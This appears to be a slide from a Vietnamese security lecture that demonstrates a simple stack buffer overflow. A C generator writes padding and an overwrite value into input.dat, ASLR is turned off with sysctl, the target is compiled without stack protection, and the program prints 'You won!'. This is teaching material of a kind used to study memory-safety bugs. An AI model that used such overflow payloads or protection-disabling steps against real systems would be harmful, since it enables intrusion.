

# Chuyển hướng
#include <stdio.h>
int main(){
	char st[ ]="aaaaaaaaaaaaaaaa\x04\x03\x02\x01";
	FILE *f = fopen("input.dat", "wb");
	fwrite(st, 1, sizeof(st), f);
	fclose(f);
	return 0;
}
$ sudo sysctl -w kernel.randomize_va_space=0
$ gcc app2.c -o app2 -fno-stack-protector
$ gcc gendata.c -o gendata
$ ./gendata
$ ./app2 < input.dat
Your name: You won!
$
25